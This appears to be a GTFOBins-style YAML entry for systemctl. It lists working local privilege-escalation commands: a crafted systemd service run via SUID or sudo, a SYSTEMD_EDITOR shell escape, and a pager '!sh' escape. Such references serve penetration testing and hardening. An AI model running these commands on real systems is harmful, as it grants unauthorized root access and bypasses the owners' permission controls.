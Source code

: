 functions:
  suid:
    - code: |
        TF=$(mktemp).service
        echo '[Service]
        Type=oneshot
        ExecStart=/bin/sh -c "id > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        ./systemctl link $TF
        ./systemctl enable --now $TF
  sudo:
    - code: |
        TF=$(mktemp)
        echo /bin/sh >$TF
        chmod +x $TF
        sudo SYSTEMD_EDITOR=$TF systemctl edit system.slice
    - code: |
        TF=$(mktemp).service
        echo '[Service]
        Type=oneshot
        ExecStart=/bin/sh -c "id > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        sudo systemctl link $TF
        sudo systemctl enable --now $TF
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo systemctl
        !sh
---
